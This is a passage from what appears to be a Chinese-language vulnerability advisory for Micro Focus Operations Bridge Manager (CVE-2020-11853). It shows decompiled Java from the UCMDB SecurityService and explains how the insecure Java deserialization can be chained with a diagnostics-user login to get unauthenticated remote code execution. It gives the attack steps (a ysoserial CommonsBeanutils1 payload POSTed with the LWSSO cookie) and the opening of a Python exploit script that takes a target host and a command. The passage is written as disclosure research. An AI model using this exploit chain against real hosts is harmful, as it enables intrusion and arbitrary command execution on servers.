 ```
public boolean isServerAdministrator() {
    try {
      UcmdbServiceInternal sdk = (UcmdbServiceInternal)ServerContext.get().executeInSessionlessContext(this.sessionContext.getSessionInfo().getCustomerContext(), new SessionlessContextExecutable<UcmdbServiceInternal>() {
            public UcmdbServiceInternal run(SessionContext sessionContext) {
              return sessionContext.getCmdbConnector().getSdk();
            }
          });
      UserId userId = this.sessionContext.getSessionInfo().getLoggedInUserId();
      return sdk.getAuthorizationModelServiceInternal().isServerAdministrator(userId);
    } catch (CmdbException e) {
      LOG.error("User could not be found in URM", (Throwable)e);
      return false;
    } catch (Exception e) {
      LOG.error("Error to get ServerAdministrator from URM", e);
      return false;
    } 
  }
```

C 片段：com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl.isServerAdministrator()

从上面可以看出，这个方法返回的是登录用户是否是管理员。为了使这个方法能够被远程调用，我们必须使用通过 HTTP POST 请求发送序列化的方法调用请求。这些对象默认是 Java 序列化对象，会被前面提到的 HttpInvokerServiceExporter Spring Remoting 类接收，然后传递给实现的服务。

虽然上面所有的端点都实现了不同的功能和服务，但它们都可以用同样的方式进行攻击。上面列出的每个服务类可能有几个或几十个方法，很可能还有更多的（非解串化）漏洞潜伏在那里。

如果将这些漏洞与漏洞 #1 连锁起来，未经认证的攻击者就可以轻松地在 OBM 主机中执行代码。为了达到这个目的，需要采取以下步骤。

用诊断用户认证 UCMDB，如片段 A 和片段 B 所示。

使用所需的命令创建一个 ysoserial CommonsBeanutils1 有效载荷。

将 POST 体中的 payload 连同步骤 1 中获得的 LWSSO_COOKIE_KEY 一起发送到 / ucmdb-ui/services/SecurityService（或上面列出的任何其他服务端点）。

下面的 Python 代码执行了这个链中的所有步骤：

```
#!/usr/bin/python3
#
## Exploit for Micro Focus Operations Bridge Manager 2020.05 UCMDB Services Insecure Java Deserialization (CVE-2020-11853)
## By Pedro Ribeiro (pedrib@agileinfosec.co.uk | @pedrib1337) from Agile Information Security
#
import sys
import os
import requests

def usage():
    print("Usage: ./obmPwn.py <RHOST> <YSOSERIAL_JAR> <COMMAND>")
    exit(1)

if len(sys.argv) < 4:
    usage()

rhost = sys.argv[1]
ysoserial = sys.argv[2]
command = sys.argv[3]

if not os.path.exists(ysoserial):
    usage()

requests.packages.urllib3.disable_warnings()

print("[*] Generating ysoserial payload with command %s" % (command))
```